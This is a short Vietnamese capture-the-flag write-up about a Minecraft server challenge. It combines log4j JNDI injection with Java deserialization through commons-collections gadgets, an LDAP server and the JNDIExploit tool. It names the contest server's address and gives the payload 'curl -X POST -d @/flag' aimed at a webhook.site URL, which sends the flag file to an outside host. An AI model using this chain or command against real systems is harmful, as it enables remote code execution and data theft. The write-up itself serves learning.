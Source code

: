# Solution


Bài viết gốc có thể xem tại [đây](https://hackmd.io/@taidh/Bk94PZjt9).

Mình mới học về log4j cách đâu 2 ngày nhưng may thay được dịp gặp được cái chall về nó nên sẽ viết về solution mà chủ yếu từ wu của một đàn anh.

Server cho một file `server_1.15.jar` và để ta có thể dùng `tlauncher` để debug local.
Nhờ vào decription của tác giả ta có thể lên mạng tìm một version khác của nó để check sự khác biệt (mình có tải sẵn ở [đây](mineme\app\server.jar) )

Dùng intellij idea để kiểm tra sự khác nhau của 2 `.jar` file



Ta có thể thấy bên file của đề có sử dụng `collections` và cũng có rất nhiều gadget chain phổ biến với nó. Việc còn lại là set up một ldap server để có thể transer serialized data. Cách này vừa có thể giúp ta khai khác log4j + deserialization vừa bypass được các version mới của jdk. Có thể dùng tool [này](https://github.com/WhiteHSBG/JNDIExploit).


Đầu tiên ta thử ở local với command `calc.exe`




OK giờ thử trên server của giải: `149.28.135.96:13337` với payload: `curl -X POST -d @/flag https://webhook.site/ac119b03-212f-443a-aca6-5e230bfc7544`

Encode payload:



Kết quả:






